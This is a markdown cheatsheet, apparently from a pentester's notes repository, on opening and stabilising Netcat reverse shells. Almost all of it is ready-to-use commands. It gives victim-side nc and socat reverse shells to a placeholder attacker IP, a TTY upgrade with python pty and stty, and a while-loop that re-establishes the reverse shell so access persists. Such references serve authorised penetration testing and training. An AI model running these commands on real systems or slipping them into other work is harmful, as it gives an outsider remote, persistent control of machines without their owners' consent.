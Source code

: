 ```yaml
---
title: Netcat Stabilisation
tags:
  - cheatsheet
  - netcat
---
```

Netcat (nc) is a powerful tool often used for various networking tasks, including creating reverse shells. Stabilizing these shells is important for maintaining control and usability. Below are common techniques and commands to stabilize a Netcat reverse shell.

## 1. Basic Reverse Shell

```bash
# Attacker (listening)
nc -lvnp <port>

# Victim (reverse shell)
nc <attacker-ip> <port> -e /bin/bash
```

## 2. Stabilizing the Shell

### 2.1 Upgrading to a TTY Shell

```bash
# 1. After getting a reverse shell, upgrade to a TTY shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 2. Press `Ctrl+Z` to background the shell

# 3. On the attacker's machine, adjust the terminal settings
stty raw -echo; fg

# 4. Reset the terminal to capture command history and auto-complete
reset
xterm-256color
export SHELL=bash
export TERM=xterm-256color
```

### 2.2 Using `rlwrap` for Readline Support

```bash
# If you have `rlwrap` installed, you can use it to add readline support (history, editing)
rlwrap nc -lvnp <port>
```

### 2.3 Enabling Interactive Mode with `-c` and `-e`

```bash
# Some versions of Netcat support the `-c` option for an interactive shell
nc -c bash <attacker-ip> <port>
```

### 2.4 Using Socat for a More Robust Shell

```bash
# 1. Start a listener with Socat on the attacker’s machine
socat file:`tty`,raw,echo=0 tcp-listen:<port>

# 2. Execute a reverse shell with Socat on the victim's machine
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attacker-ip>:<port>
```

### 2.5 Using SSH for Stabilization

```bash
# If SSH access is available, use it to stabilize the shell
ssh user@<attacker-ip> -p <port> -t bash
```

## 3. Additional Tips

### 3.1 Disable Terminal Echo

```bash
# If the terminal echoes your input twice, disable echo
stty -echo
```

### 3.2 Manage Terminal Size

```bash
# Adjust terminal size for better display
stty rows <num_rows> columns <num_columns>
```

### 3.3 Persistent Shell

```bash
# Use a while loop for a persistent reverse shell
while true; do nc -e /bin/bash <attacker-ip> <port>; done
```

## 4. Useful Aliases

```bash
# Simplify commands with aliases
alias ll='ls -la'
alias l='ls -l'
```

## 5. Quick Command Reference

```bash
# Spawn TTY shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Background the shell
Ctrl + Z

# Return to foreground after terminal adjustment
fg

# Raw mode for interactive shells
stty raw -echo
```

## 6. References

- [Pentestmonkey - Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [GTFOBins - Netcat](https://gtfobins.github.io/gtfobins/nc/)
